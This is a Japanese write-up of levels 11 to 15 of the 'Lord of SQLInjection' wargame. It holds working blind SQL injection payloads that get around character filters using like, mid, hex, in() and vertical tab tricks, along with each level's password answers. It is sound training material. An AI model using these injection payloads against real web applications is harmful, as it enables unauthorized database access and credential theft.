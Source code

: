 # Lord of SQLInjection writeup 11-15
## 11 - golem
>  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";

04,07と同じだが禁止文字が増え、`substr`も`=`も使えない。    
`=`の代わりに、文字列は`like`、数値は`<`を使ってみる。  
```
?pw='||id like'admin'%26%26length(pw)<2%23
?pw='||id like'admin'%26%26length(pw)<3%23
:
?pw='||id like'admin'%26%26length(pw)<8%23
?pw='||id like'admin'%26%26length(pw)<9%23
```
`<8`と`<9`のところで結果が変わったので、また8文字だろう。  
次はパスワードを1文字ずつ見ていくが、`substr`が使えないので`mid`を使ってみる。
```
?pw='||id='admin'%26%26mid(pw,1,1)like'0'%23
?pw='||id='admin'%26%26mid(pw,1,1)like'1'%23
?pw='||id='admin'%26%26mid(pw,1,1)like'2'%23
:
```
そろそろスクリプトで自動化しないとつらい。

### 回答例
```
?pw=77d6290b
```
> query : select id from prob_golem where id='guest' and pw='77d6290b'

## 12 - darkknight
> $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 

また同じパターンで、さらに禁止文字が増えている。  
`pw`は文字列が想定されており、SQL文で変数の前後が`'`で囲まれているが、  
`'`が禁止されているので、ここを抜け出すのはつらい。  
もう1つのパラメータ`no`は数値が想定されており、`'`を使わずに後ろに追記できるので、こちらを攻める。  

また8文字だろうと期待して試行。
`'`が使えないので問題03と同じく、Hex済みの`admin`を使う。   
数値にもlikeが使えたので、`<`を使うのはやめた。
```
?no=0 or id like 0x61646d696e and length(pw) like 8
```
パスワードを試していく。
```
?no=0 or id like 0x61646d696e and mid(pw,1,1) like 0
```
1文字目は`0`でうまくいったが、2文字目はどうも数字ではない模様。  
`'`が使えないので、16進数で表記した`a`、`0x61`から試していく。  
```
?no=0 or id like 0x61646d696e and mid(pw,2,1) like 0x61
?no=0 or id like 0x61646d696e and mid(pw,2,1) like 0x62
```
すぐ見つかってよかった。2文字目は`b`のようだ。あとはひたすら続ける。  

### 回答例
```
?pw=0b70ea1f
```
> query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=

## 13 - bugbear
> $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";

さらに色々使えなくなっている。`like`に`0x`、`半角スペース`まで封じられている。  
パスワードがまた親切にも8文字であることを期待して、1文字目が`a`の`id`を取ってくる。  
`0x`を封じられたので、`id`の方を`Hex`関数を使って16進数に変えてあげる。  
```
?no=0||hex(mid(id,1,1))in(61)%26%26length(pw)in(8)
```
パスワードを試していく。  
数字の0-9は0x30から0x39、小文字のa-fは0x61から0x66。
```
?no=0||hex(mid(id,1,1))in(61)%26%26hex(mid(pw,1,1))in(30)
?no=0||hex(mid(id,1,1))in(61)%26%26hex(mid(pw,1,1))in(31)
?no=0||hex(mid(id,1,1))in(61)%26%26hex(mid(pw,1,1))in(32)
:
```

### 回答例
```
?pw=52dc3991
```
> query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=

## 14 - giant
> $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 

半角スペースなしでつながっている`from`とテーブル名の間にGETパラメータ`shit`が入る。  
もちろん`shit`に半角スペースは許可されていないし、`\n`、`\r`、`\t`も禁止されているし、  
strlen関数を使って1文字より長いとエラーにしている。  

それ以外の特殊記号をあたってみればよい。  
垂直タブVTなら`0x0b`、フォームフィードFFなら`0x0c`。

### 回答例
```
?shit=%0b
```
> query : select 1234 fromprob_giant where 1

## 15 - assassin 
> $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 

`'`が禁じられているので、`like`条件から抜けることができない。  
ひとまず`?pw=%`としてみると、Hello guestと言われてしまう。   

いままでの傾向から、パスワードに使われているのは0-9とa-fだと信じ、  
adminのパスワードが当たるまでひたすら試してみる。  

まず1文字目
```
?pw=0%
?pw=1%
:
?pw=f%
```
全部guestだと言われる。

つづいて2文字目
```
?pw=_0%
?pw=_1%
:
?pw=_f%
```
やっぱり全部guestだと言われる。

一応3文字目
```
?pw=__0%
?pw=__1%
?pw=__2%
```
どうやらパスワードの3文字目は、guestとadminで異なるようだ。

### 回答例
```
?pw=__2%
```
> query : select id from prob_assassin where pw like '__2%'
